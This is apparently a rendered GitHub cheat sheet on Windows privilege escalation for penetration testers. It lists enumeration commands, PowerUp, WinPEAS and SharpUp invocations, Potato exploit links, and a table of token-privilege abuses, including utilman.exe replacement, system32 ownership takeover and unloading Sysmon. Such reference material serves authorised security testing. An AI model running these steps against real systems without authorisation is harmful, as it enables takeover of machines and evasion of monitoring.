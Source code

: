 discover all the services that are running on the target host and identify those that are not enclosed inside quotes:

```cmd
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```
## Windows Enumeration

Windows Enumeration help penetration testers quickly identify potential privilege escalation vectors on Windows systems. this could be done with windows enumerate information about missing software patches, Task Scheduler and ...

### Automated Tools

1- [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/c7985c9bc31e92bb6243c177d7d1d7e68b6f1816/Privesc/PowerUp.ps1) is a PowerShell script that looks for common privilege escalations on the target system.

```c
powershell -ep bypass
. .\PowerUp.ps1
Invoke-AllChecks
```

2- [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) known as the "Windows Privilege Escalation Awesome Scripts".

```c
winPEASx64.exe
```

3- [SharpUp](https://github.com/GhostPack/SharpUp) is another tool from the GhostPack collection that acts as a C# port for multiple PowerUp functions.

```c
SharpUp.exe audit
```

### Automated Windows Enumeration

https://github.com/ohpe/juicy-potato
https://github.com/breenmachine/RottenPotatoNG
https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
https://github.com/Prepouce/CoercedPotato

## Impersonation Privileges

[T1134 - Access Token Manipulation](https://attack.mitre.org/techniques/T1134/)

Full privileges cheatsheet at https://github.com/gtworek/Priv2Admin, summary below will only list direct ways to exploit the privilege to obtain an admin session or read sensitive files.

| Privilege              | Impact | Tool                                        | Execution path                                                                                                                                                                                                                                                 |
| ---------------------- | ------ | ------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `SeAssignPrimaryToken` | Admin  | 3rd party tool                              | It would allow a user to impersonate tokens and privesc to nt system using tools such as potato.exe, rottenpotato.exe and juicypotato.exe                                                                                                                      |
| `SeBackup`             | Threat | Built-in commands                           | Read sensitve files with `robocopy /b`                                                                                                                                                                                                                         |
| `SeCreateToken`        | Admin  | 3rd party tool                              | Create arbitrary token including local admin rights with `NtCreateToken`.                                                                                                                                                                                      |
| `SeDebug`              | Admin  | PowerShell	Duplicate the `lsass.exe `token. |                                                                                                                                                                                                                                                                |
| `SeLoadDriver`         | Admin  | 3rd party tool                              | 1. Load buggy kernel driver such as szkg64.sys or capcom.sys 2. Exploit the driver vulnerabilityAlternatively, the privilege may be used to unload security-related drivers with ftlMC builtin command. i.e.: fltMC sysmondrv                                  |
| `SeRestore`            | Admin  | PowerShell                                  | 1. Launch `PowerShell/ISE` with the `SeRestore` privilege present. <br>2. Enable the privilege with Enable-`SeRestorePrivilege`. <br>3. Rename `utilman.exe `to `utilman.old` <br>4. Rename `cmd.exe` to `utilman.exe` <br>5. Lock the console and press Win+U |
| `SeTakeOwnership`      | Admin  | Built-in commands                           | 1. `takeown.exe /f "%windir%\system32"`<br>2. `icalcs.exe "%windir%\system32" /grant "%username%":F`<br>3. Rename `cmd.exe` to `utilman.exe` <br>4. Lock the console and press Win+U                                                                           |
| `SeTcb`                | Admin  | 3rd party tool                              | Manipulate tokens to have local admin rights included. May require SeImpersonate. To be verified.                                                                                                                                                              |